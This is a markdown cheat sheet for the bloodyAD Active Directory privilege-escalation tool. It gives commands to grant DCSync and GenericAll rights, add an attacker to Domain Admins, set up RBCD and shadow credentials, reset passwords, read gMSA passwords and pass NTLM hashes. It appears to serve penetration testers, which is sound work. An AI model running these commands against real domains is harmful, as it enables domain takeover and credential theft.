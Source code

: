 # bloodyAD Cheat Sheet

A powerful tool for Active Directory privilege escalation via LDAP/SAMR.  
Supports NTLM, Kerberos, and certificate-based authentication without requiring LDAPS.  
GitHub: [CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)

---

## Installation

```bash
# From PyPi
pip install bloodyAD

# From Source
git clone https://github.com/CravateRouge/bloodyAD
cd bloodyAD
python3 -m venv .venv
source .venv/bin/activate
pip install .
```

---

## Authentication Options

| Flag               | Description                                 |
|--------------------|---------------------------------------------|
| `-u <user>`        | Username (sAMAccountName)                   |
| `-p <password|:NTLM>` | Plaintext password or NTLM hash           |
| `-k`               | Use Kerberos authentication                 |
| `-c <cert.pem>`    | Certificate-based authentication            |
| `-d <domain>`      | Target domain                               |
| `--host`           | DC FQDN or hostname                         |
| `--dc-ip`          | IP of Domain Controller                     |
| `--dns`            | Specify DNS server                          |

Supports cleartext, hashes, Kerberos, and certificates for flexible access.

---

## Command Structure

| Category | Subcommands |
|----------|-------------|
| `get`    | children, dnsDump, membership, object, search, trusts, writable |
| `add`    | computer, dcsync, dnsRecord, genericAll, groupMember, rbcd, shadowCredentials, uac, user |
| `remove` | dcsync, dnsRecord, genericAll, groupMember, object, rbcd, shadowCredentials, uac |
| `set`    | object, owner, password |

```bash
bloodyAD [auth options] <command> <subcommand> [args]
```

---

## GET Commands

```bash
# List child objects
bloodyAD ... get children --target DOMAIN

# Dump DNS records
bloodyAD ... get dnsDump --zone domain.local

# Get user group membership
bloodyAD ... get membership targetUser

# Get object attributes
bloodyAD ... get object gmsa01$ --attr msDS-ManagedPassword

# LDAP search by filter
bloodyAD ... get search --filter "(objectClass=user)" --attr mail

# Check writable objects
bloodyAD ... get writable --otype USER --detail
```

---

## ADD Commands

```bash
# Add DCSync rights
bloodyAD ... add dcsync attackerUser

# Assign GenericAll rights
bloodyAD ... add genericAll "CN=target,CN=Users,DC=domain,DC=local" attacker

# Add user to group
bloodyAD ... add groupMember "Domain Admins" attacker

# Create a computer object
bloodyAD ... add computer NewPC Pass123!

# Add RBCD
bloodyAD ... add rbcd targetSPN attackerUser

# Add shadow credentials (ESC14)
bloodyAD ... add shadowCredentials targetUser --path creds.pem
```

---

## REMOVE Commands

```bash
# Remove DCSync rights
bloodyAD ... remove dcsync attackerUser

# Remove GenericAll
bloodyAD ... remove genericAll "CN=target,CN=Users,DC=domain,DC=local" attacker

# Remove user from group
bloodyAD ... remove groupMember "Domain Admins" attacker

# Remove shadow credentials
bloodyAD ... remove shadowCredentials targetUser
```

---

## SET Commands

```bash
# Change user password
bloodyAD ... set password targetUser NewP@ssw0rd

# Change object owner
bloodyAD ... set owner "CN=object,OU=Org,DC=domain,DC=local" newOwner

# Set specific attribute
bloodyAD ... set object targetUser userPrincipalName -v attacker@domain.local
```

---

## Tips and Extras

- Use `--resolve-sd` with `get object` to view Security Descriptors.
- Combine with BloodHound or `autobloody.py` for attack chaining.
- Pass hashes using `-p :<NTLM>` format.
- Supports base64 or encrypted secret decoding with `-f` flag.

---

## References

- [User Guide](https://github.com/CravateRouge/bloodyAD/wiki/User-Guide)
- [Examples and Attack Paths](https://github.com/CravateRouge/bloodyAD/wiki/Examples)
- [Authentication Methods](https://github.com/CravateRouge/bloodyAD/wiki/Authentication-Methods)
